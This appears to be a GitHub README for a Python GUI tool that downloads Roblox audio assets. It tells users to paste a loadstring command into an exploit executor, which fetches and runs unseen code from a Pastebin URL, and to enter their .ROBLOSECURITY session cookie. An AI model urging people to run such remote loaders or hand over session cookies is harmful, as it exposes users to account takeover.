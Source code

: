 # Roblox Audio Fetcher Downloader

A GUI tool to download audio assets from Roblox.

> **Note:** We recommend using a Roblox alternate account (alt) and its corresponding `.ROBLOSECURITY` cookie to avoid potential security and privacy risks.

> **For Roblox Script Execution:**
> If you'd like to use this script, you can execute the provided Lua script in your game. Use the following command in any roblox exploit executor:
>
> ```lua
> loadstring(game:HttpGet('https://pastebin.com/raw/q1BeVNMG', true))()
> ```
>
> If you have concerns about the script's safety, you can visit the [Pastebin URL](https://pastebin.com/raw/q1BeVNMG) directly to review the code. 

> **Need Help?**
> If you require assistance or have questions about using the tool, refer to the detailed instructions provided in the [howto.txt](howto.txt) file.

> The Place Id as to have Audio Id/AssetId connected to the place id

> Here is a Video Tutorial: https://www.youtube.com/watch?v=7jmCUQoU7ac

## Usage

1. Clone or download the repository.

2. Install the required Python packages: ```pip install requests```
  
3. Run the audio.py script using Python: ```python audio.py```

4. Enter your Roblox cookie (.ROBLOSECURITY) and the target place ID in the GUI.

5. Choose a text file containing a list of asset IDs separated by commas.

6. Click the "Download All Audio Files" button to start downloading.

7. Downloaded audio assets will be stored in the audio_files folder.

   # Requirements
Python 3.x
Tkinter (usually included with Python)
Requests library

# License
This project is licensed under the MIT License.

